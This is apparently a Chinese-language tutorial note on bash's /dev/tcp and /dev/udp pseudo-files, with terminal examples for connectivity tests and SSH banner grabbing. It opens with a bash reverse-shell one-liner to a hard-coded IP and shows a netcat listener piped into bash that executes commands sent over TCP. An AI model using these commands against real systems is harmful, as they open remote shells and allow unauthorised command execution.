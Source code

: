 # /dev/tpc/host/port 文件

> reverse shell
>
> ```
> bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
> ```

虽然看起来像一个文件，但是实际并不存在。如果是一个合法的规则，bash(==这是bash特有的，所以zsh使用时会报错==)会尝试打开相关的tpc socket。同样的还有`/dev/udp/host/port`

我们在A使用nc监听10086端口，B创建文件主动连接

```
#A
root in /etc/ssh λ nc -lk -p 10086 | bash

#B
┌─────( root)─────(/etc) 
 └> $ echo "ls"  > /dev/tcp/8.135.0.171/10086

#A显示
root in /etc/ssh λ nc -lk -p 10086 | bash
moduli          sshd_config       ssh_host_dsa_key.pub    ssh_host_ed25519_key      ssh_host_rsa_key.pub
ssh_config      sshd_config.bak   ssh_host_ecdsa_key      ssh_host_ed25519_key.pub  ssh_import_id
ssh_config.bak  ssh_host_dsa_key  ssh_host_ecdsa_key.pub  ssh_host_rsa_key
```

也可以用来发送请求

```
┌─────( root)─────(/etc) 
 └> $ printf GET HTTP 1.1 /r/n'  > /dev/tcp/baidu.com/443

---

root in /opt λ tcpdump -i eth0 host baidu.com
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
18:21:03.819749 IP 192.168.80.200.55266 > 39.156.69.79.https: Flags [S], seq 1888363027, win 64240, options [mss 1460,sackOK,TS val 1940856432 ecr 0,nop,wscale 7], length 0
```

==结合timeout来测试连通性==

```
 ┌─────( root)─────(~) 
 └> $ timeout --preserve-status 1 echo > /dev/tcp/baidu.com/443;echo $?
0

 ┌─────( root)─────(~) 
 └> $ timeout --preserve-status 1 echo > /dev/tcp/baidu.com/999;echo $?
bash: connect: Connection refused
bash: /dev/tcp/baidu.com/999: Connection refused
1
```

SSH版本探测

```
[root@8d3d229c-4aab-4812-96b9-37c8bc47a1d8 ~]#  cat  < /dev/tcp/8.135.0.171/22
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
```

